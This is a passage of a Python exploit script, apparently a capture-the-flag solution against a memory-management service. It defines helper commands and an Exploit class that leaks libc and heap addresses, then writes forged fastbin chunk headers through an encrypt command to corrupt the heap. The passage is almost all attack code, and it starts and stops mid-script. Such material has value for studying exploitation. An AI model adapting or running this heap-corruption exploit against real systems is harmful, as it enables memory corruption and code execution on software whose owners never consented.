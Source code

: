 ```py
    send_int(r, 5)
    RAM_free_all_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_free_all_res = {hex(RAM_free_all_res)}")

def send_6_RAM_available_size(r):
    send_int(r, 6)
    RAM_available_size_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_available_size_res = {hex(RAM_available_size_res)}")
    RAM_available_size = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_available_size = {hex(RAM_available_size)}")

def send_7_RAM_unfragment(r):
    send_int(r, 7)
    RAM_unfragment_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_unfragment_res = {hex(RAM_unfragment_res)}")

class Exploit():
    CURRENT_RAM_ID = 0

    def __init__(self):
        self.heap = 0
    
    def exploit(self):
        libc.address = self.leak_libc()
        log.info(f"Leaked libc address is {hex(libc.address)}")

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

        self.heap = self.leak_heap()
        log.info(f"Leaked heap address is {hex(self.heap)}")

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

        self.allocate_ram()

    def test_cores(self, nb):
        log.info("Create a chunk in 0x30 fastbin")
        c1 = conn()
        r  = conn()

        ram_id = point_at(r, 0x10410, 0x40)
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x40, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*0x18 + 
            0x121.to_bytes(8, "little") +
            0x30.to_bytes(8, "little") +
            0x31.to_bytes(8, "little")
        )
        c1.close()
        r.close()

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

```